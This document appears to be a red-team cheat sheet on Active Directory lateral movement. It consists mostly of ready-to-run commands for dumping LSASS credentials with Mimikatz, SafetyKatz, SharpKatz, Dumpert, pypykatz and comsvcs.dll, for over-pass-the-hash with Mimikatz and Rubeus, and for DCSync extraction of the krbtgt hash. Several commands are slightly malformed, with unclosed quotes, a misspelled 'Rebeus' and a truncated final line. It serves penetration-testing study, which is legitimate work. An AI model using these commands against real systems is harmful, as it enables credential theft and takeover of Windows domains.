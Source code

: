 # Lateral Movement - Mimikatz / PtH / DCSync

- [Lateral Movement - Mimikatz / PtH / DCSync](#lateral-movement---mimikatz--pth--dcsync)
  - [Mimikatz](#mimikatz)
  - [Extracting credential from LSASS](#extracting-credential-from-lsass)
  - [Over Pass-the-hash](#over-pass-the-hash)
  - [DCSync](#dcsync)

---

## Mimikatz 

Mimikatz can be used to dump credentials, tickets, and many more interesting attacks.

`Invoke-Mimikatz` is a PowerShell version of Mimikatz. Using the code from **ReflectivePEInjection**, mimikatz is loaded reflectively into the memory, and all functions of mimikatz could be used from this script.

Note both `Mimikatz.exe` and `Invoke-Mimikatz.ps1` have to be run in **Admin Privilege** for dumping credentials from local machine. Many attacks need specific privileges which are covered while discussing that attack.

Note:
- http://github.com/gentilkiwi/mimikatz
- http://adsecurity.org/?p=2207

<br/>

---

## Extracting credential from LSASS

**Dump credential on a local machine using Mimikatz**

```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

<br/>

**SafetyKatz**

- Minidump of lsass and PELoader to run Mimikatz

```
SafetyKatz.exe "sekurlsa::ekeys"
```

<br/>

**Dump credentials using SharpKatz**

- C# port of some of Mimikatz functionality

```
SharpKatz.exe --Command eKeys
```

<br/>

**Dump credentials using Dumpert**

- Direct system calls and API unhooking

```
rundll32.exe C:\Dumpert\Outflack-Dumpert.dll,DUMP
```

<br/>

Note:
- https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1
- https://github.com/b4rtik/SharpKatz
- https://github.com/outflanknl/Dumpert
- https://github.com/Flangvik/BetterSafetyKatz
- https://github.com/GhostPack/SafetyKatz

<br/>

**Using pypykatz**

- Mimikatz functionality in Python

```
pypykatz.exe live lsa
```

<br/>

**Using comsvcs.dll**

- Very useful in case of Constrained Language Mode / Code Integrity Enforcement

- First get the PID of the `lsass.exe` process: 

```
tasklist /FI "IMAGENAME eq lsass.exe"
```

- Do a memory dump of the `lsass.exe` process:

```
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <lsass PID> C:\Users\Public\lsass.dump full
```

- To get the credentials in the dump, use `mimikatz.exe`:

```
sekurlsa::minidump <path_to_dmp>
privilege::debug
sekurlsa::ekeys
```

<br/>

Also:

- Linux attacking AD - use `impacket` / `Physmem2profit`

<br/>

Note:
- https://github.com/skelsec/pypykatz
- https://github.com/Hackndo/lsassy
- https://github.com/SecureAuthCorp/impacket/
- https://github.com/FSecureLABS/physmem2profit

<br/>

---

## Over Pass-the-hash

**Over Pass-the-Hash (OPTH)** generate tokens from hashes or keys. To perform, you need a elevated prompt (admin privs):

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe
```

```
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256key> /run:cmd.exe" "exit"
```

Note:
The above commands starts a PS / CMD session with a **logon type 9** (same as `runas /netonly`).
More about logon event:
- https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc787567(v=ws.10)

<br/>

The command below doesn't need elevation:

```
Rubeus.exe asktgt /user:administrator /rc4:<ntlm> /ptt
```

<br/>

The command below needs elevation:

```
Rebeus.exe asktgt /user:administrator /aes256:<aes256key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

- https://github.com/GhostPack/Rubeus/

---

## DCSync

To extract credentials from the DC without code execution on the DC, we can use **DCSync**. Note by default, **Domain Privilege** are required to run DCSync.

To use the DCSync feature for getting krbtgt hash execute the below command with Domain Admin privileges for the `us` domain:

- Mimikatzs:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

- SafetyKatz

```
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "trust.
```

<br/>

----